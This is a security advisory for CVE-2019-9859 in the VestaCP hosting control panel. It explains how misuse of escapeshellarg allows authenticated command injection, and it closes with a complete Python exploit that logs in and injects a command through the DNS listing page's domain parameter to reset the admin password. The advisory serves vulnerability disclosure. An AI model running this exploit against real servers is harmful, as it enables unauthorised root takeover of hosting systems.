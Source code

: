 **Vulnerabilities Summary**

The following advisory describes a vulnerability in Vesta control panel (VestaCP), an open source hosting control panel, which can be used to manage multiple websites, create and manage email accounts, FTP accounts, and MySQL databases, manage DNS records and more.

**CVE**

CVE-2019-9859

**Credit**

An independent Security Researcher, 0xecute, has reported this vulnerability to SSD Secure Disclosure program.

**Affected systems**

VestaCP versions 0.9.7-0.9.8-23.

**Vendor Response**

The vendor released a fixed version on April 15.
Vulnerability Details

VestaCP is vulnerable to an authenticated command execution which
can result a remote root access on the server.

The platform works with PHP as the frontend language and uses shell scripts to execute system actions. PHP executes shell script through the dangerous command `exec`. This function can be dangerous if arguments passed to it are not filtered. Every user input in VestaCP that is used as argument is filtered with the `escapeshellarg` function. This function comes from the php library directly and its description is as follow:

`escapeshellarg()` adds single quotes around a string and quotes/escapes any existing single quotes allowing you to pass a string directly to a shell function and having it be treated as a single safe argument. It means that if you give Username, it will be replaced with ‘Username’. This works well and protects users from exploiting this potentially dangerous exec function.

Unfortunately, VestaCP uses this escapeshellarg function wrong at several places. We can see an example in web\list\dns\index.php:

`exec (VESTA_CMD."v-list-dns-records '".$user."' '".escapeshellarg($_GET['domain'])."' 'json'", $output, $return_var);`

We can see the `escapeshellarg` use on the user input, but it is surrounded by single quote! If we remember the goal of `escapeshellarg`, it already adds a single quote around the input.

This error means that if we give an input with a space, we are not inside the second argument of the `v-list-dns-records` function and not surrounded by single quote anymore.

It will give for ``$_GET[‘domain’]=abc touch/tmp/hacked` the following
`Exec(v-list-dns-records ‘username’ ‘’abc touch /tmp/hacked)`` This will consider ‘’abc as the second argument, and `touch /tmp/hacked` will be executed as a system command as it is outside quotes.

This error can be found in the following files:
`web\edit\server\index.php : 4 times`

`web\list\dns\index.php: 1 time`

`web\list\mail\index.php: 1 time`

```python
import requests
from bs4 import BeautifulSoup
username='simpleUser'
password='welcome123'
serverIP='https://192.168.56.102:8083'
newRootPassword='welcomeRoot'
vestaPath='/usr/local/vesta'
cmd='sudo '+vestaPath+'/bin/v-change-user-password admin '+newRootPassword
s = requests.session()
r = s.get(serverIP+'/login/', verify=False)
soup = BeautifulSoup(r.text, features="html.parser")
token = soup.find('input', {'name': 'token'}).get('value')
print(token)
## Authentication ##
loginR = s.post(serverIP+"/login/", allow_redirects=False, data={'token':token,'user':username,'password':password},headers={'Referer':serverIP+'/login/','User-Agent':'Mozilla/5.0 (Windows NT 6.1; Win64; x64;rv:65.0)Gecko/20100101 Firefox/65.0'}, verify=False)
if loginR.status_code!=302:
	print("Wrong login")
	print(loginR.text)
	print(loginR.status_code)
	print(loginR.headers)
	exit()
## Exploit ##
exploitR = s.get(serverIP+'/list/dns/index.php?domain=abc%20`'+cmd+'`')
if exploitR.status_code==200:
	print("Exploit done")
	print("You can now connect to the SSH server")
	print("Credentials: \nUsername: admin\nPassowrd: "+newRootPassword)
	print("Then, you need to execute 'sudo bash' and type again the password, then you
	are root")
```
